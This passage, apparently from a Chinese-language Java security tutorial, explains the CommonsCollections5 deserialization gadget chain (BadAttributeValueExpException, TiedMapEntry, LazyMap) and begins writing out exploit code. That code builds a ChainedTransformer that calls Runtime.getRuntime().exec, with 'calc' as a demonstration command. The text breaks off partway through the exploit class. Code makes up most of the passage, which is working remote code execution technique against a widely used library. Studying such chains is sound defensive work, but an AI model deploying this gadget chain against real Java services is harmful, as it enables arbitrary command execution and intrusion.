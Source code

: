 ```plain

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

## CommonsCollections5:

BadAttributeValueExpExceptionl类的readObject方法中有toString方法，然后toString方法能够调用getValue方法，然后调用TiedMapEntry中的getValue，后面就能够调用Lazymap里面的get方法：

[![](assets/1701612311-e93a00adf134acd702024b5ed71b281c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235618-a3aea15c-20cc-1.png)

```plain
package EXP;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

public class CC5BadAttributeValueExpException {
    public static void main(String[] args) throws Exception{

        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);


//赋值操作
        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,chainedTransformer);

```